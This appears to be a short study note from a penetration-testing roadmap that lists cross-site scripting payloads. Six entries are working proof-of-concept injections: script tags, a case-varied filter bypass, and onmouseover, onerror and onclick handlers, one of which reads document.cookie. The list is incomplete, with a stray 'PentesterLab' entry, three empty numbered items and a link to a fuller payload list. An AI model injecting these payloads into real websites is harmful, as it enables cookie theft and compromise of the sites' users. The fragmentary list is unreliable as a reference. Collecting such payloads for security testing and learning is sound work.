 
### 10 Top XSS Payloads 


1- <script>alert("1")</script>  


2- <sCript> alert("bypassing simple filters") </sCRIpt> 


3- PentesterLab 


4- <a onmouseover="alert(document.cookie)">xxs link</a> | <a onmouseover=alert(document.cookie)>xxs link</a>


5- <img src='zzzz' onerror='alert(1)' /> 


6- <div style="color:red" onclick=alert('xss')>  | Coloring is adding to see the div


7- <div style="color:green" onmouseover=alert('xss') >

8- 


9- 


10- 


[__Complete List of XSS Payloads:__](https://github.com/nairuzabulhul/RoadMap/blob/master/PTP/Web_Security/XSS_Payload_List.txt)

